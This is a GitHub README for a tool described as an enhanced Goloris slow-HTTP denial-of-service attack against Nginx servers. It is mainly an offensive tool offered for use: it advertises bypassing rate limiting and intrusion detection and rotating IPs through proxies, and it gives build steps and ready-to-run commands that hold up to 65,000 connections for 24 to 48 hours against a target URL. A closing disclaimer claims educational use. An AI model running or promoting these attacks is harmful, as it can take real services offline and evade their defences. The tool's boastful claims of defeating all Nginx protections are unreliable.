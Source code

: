 # 🔥 Next-Gen Goloris Attack - Nginx Killer 🚀

### **💀 Overview**

This is an **enhanced version of Goloris**, designed to **bypass modern Nginx protections** and **take down any unprotected or weakly configured Nginx server**. It utilizes **slow HTTP attacks**, **socket exhaustion**, and **persistent flooding** to **consume all available connections**, leading to a **complete server failure**.

---

## **🚀 Features**

👉 **Bypasses Modern Nginx Security Measures (All Versions)**\
👉 **Slow Read & Write Attack (Bypasses Rate-Limiting & IDS Detection)**\
👉 **Massively Increases TCP Socket Consumption (Max Server Load)**\
👉 **Auto-Reconnect on Drop (Ensures Persistent Attack)**\
👉 **Supports HTTP/2 + WebSockets for Advanced Connection Overload**\
👉 **Proxy Support (Unlimited IP Rotation & Infinite Scaling)**\
👉 **Customizable Attack Duration, Connection Limits, and Ramp-Up Speed**\
👉 **Live Attack Monitoring (Displays Holding Connections, Total Attempts, CPS)**

---

## **💎 Requirements**

- Go 1.17+ installed
- Linux/macOS/Windows
- A target Nginx server (vulnerable/unprotected)
- Proxy list (if using proxies for IP rotation)

---

## **💾 Installation**

### **1️⃣ Install Go**

If Go is not installed, install it with:

```sh
sudo apt install golang -y      # Ubuntu/Debian
sudo yum install golang -y      # CentOS/RHEL
brew install go                 # macOS
choco install golang             # Windows (via Chocolatey)
```

### **2️⃣ Clone the Repository**

```sh
git clone https://github.com/your-repo/nginx-goloris-killer.git
cd nginx-goloris-killer
```

### **3️⃣ Build the Script**

```sh
go build -o goloris main.go
```

---

## **🔥 How to Run**

### **Basic Attack**

```sh
./goloris -url https://target.com -duration 24h -workers 5000 -ramp 1ms
```

This command will:

- Attack `https://target.com`
- Run for `24 hours`
- Hold `5,000 persistent connections`
- Use a `1ms ramp-up interval` to establish connections quickly

### **Advanced Attack with Proxy Support**

```sh
./goloris -url https://target.com -duration 48h -workers 65000 -ramp 1ms -proxies proxies.txt
```

- Uses a **proxy list (********`proxies.txt`********\*\*\*\*\*\*\*\*\*\*\*\*)** to **rotate IPs** and bypass **IP-based rate limiting**
- **Holds up to 65,000 connections per IP**
- **Runs for 48 hours**
- **Breaks through Nginx’s security layers**

---

## **📊 Live Attack Monitoring**

During the attack, you will see **real-time attack status**:

```sh
💀 [LIVE STATUS] Holding: 4987 | Total Attempts: 105298 | CPS: 430
```

- **Holding** = Active, sustained connections
- **Total Attempts** = Total number of connection attempts
- **CPS** = New connections per second

---

---

## **⚠️ Disclaimer**

This script is designed for **educational and security testing purposes only**. Unauthorized usage against any system you do not own or have explicit permission to test **is illegal** and **violates cybersecurity laws**.

**By using this software, you take full responsibility for any actions performed.**

---

## **🛠️ Credits & Contributions**

- Original Goloris concept by [valyala](https://github.com/valyala/goloris)
- Enhanced version by **hanphlc**



